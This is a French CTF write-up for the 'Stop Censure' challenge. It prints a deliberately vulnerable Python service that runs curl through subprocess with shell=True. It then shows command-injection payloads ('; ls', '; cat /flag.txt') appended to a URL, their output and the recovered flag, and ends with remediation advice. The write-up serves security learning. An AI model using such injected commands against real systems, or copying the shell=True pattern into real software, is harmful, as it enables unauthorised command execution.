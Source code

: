```yaml
---

layout: post  
title: Stop Censure  
subtitle: Write-Up pour le Cybört CTF  
tags: [writeup, injection, command, CTF]  
comments: true

---
```


Salut ! Voici mon write-up sur le challenge **Stop Censure** du Nobrackets CTF. Ce challenge exploite une vulnérabilité d'injection de commande, à travers l'utilisation de `subprocess. Merci à `Drahoxx` ! 

## Premier coup d'œil

Le challenge nous demande de vérifier si un site est censuré ou non via un service accessible en utilisant `netcat`. Voici comment accéder au service :

```bash
nc node1.nobrackets.fr 20764
```

Une fois connecté, on nous demande de saisir une URL pour vérifier si elle est bloquée. L'objectif est d'exploiter cette interface pour accéder au fichier `/flag.txt`.

## Analyse du code

Voici le code source du service `chall.py` fourni :

```python
#!/usr/bin/env python3
import subprocess
import re

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("----------------------------")
print("~~ Ce site est-il légal ? ~~")
print("----------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

Le programme utilise `subprocess.run()` pour exécuter la commande `curl` et tester si l'URL existe. Toutefois, le problème réside dans l'utilisation de l'option `shell=True` avec la commande construite à partir de l'entrée utilisateur. Cela permet une injection de commande si la saisie utilisateur n'est pas correctement contrôlée.

## Exploitation

Pour tester si l'injection de commande fonctionne, j'ai essayé de lister les fichiers avec une commande `ls` :

```bash
nc node1.nobrackets.fr 20764
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; ls
```

L'output est le suivant :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
date: Thu, 17 Oct 2024 17:58:50 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-par-lfpg1960039-PAR
x-cache: HIT
x-cache-hits: 1
x-timer: S1729187930.281473,VS0,VE129
vary: Accept-Encoding
x-fastly-request-id: 561b2b3cd07d5177045d938ec4be4fc947ef1304
content-length: 42507

chall.py
```

Nous pouvons voir que la commande `ls` a bien été exécutée et que le fichier `chall.py` est listé dans le répertoire.

### Accès au Flag

L'étape suivante consiste à injecter une commande pour lire le fichier `/flag.txt`. Voici la commande complète :

```bash
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; cat /flag.txt
```

Voici l'output obtenu :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
age: 106
date: Thu, 17 Oct 2024 18:00:36 GMT
via: 1.1 varnish
x-served-by: cache-par-lfpg1960025-PAR
x-cache: HIT
x-cache-hits: 0
x-timer: S1729188037.902421,VS0,VE1
vary: Accept-Encoding
x-fastly-request-id: b7bb977154518a58b081de81a79f9fc6db83fd4d
content-length: 42507

NBCTF{#FreeTheInternet}
```

Le flag est bien récupéré : **NBCTF{#FreeTheInternet}**.

## Conclusion

Ce challenge montre une autre forme d'injection de commande, cette fois-ci via la bibliothèque `subprocess` avec `shell=True`, qui permet à des utilisateurs malveillants d'exécuter des commandes arbitraires. Pour sécuriser ce type d'application, il est recommandé de désactiver `shell=True` et d'utiliser des commandes bien délimitées, tout en validant rigoureusement les entrées utilisateur.

Merci encore à `Drahoxx` pour ce challenge captivant !
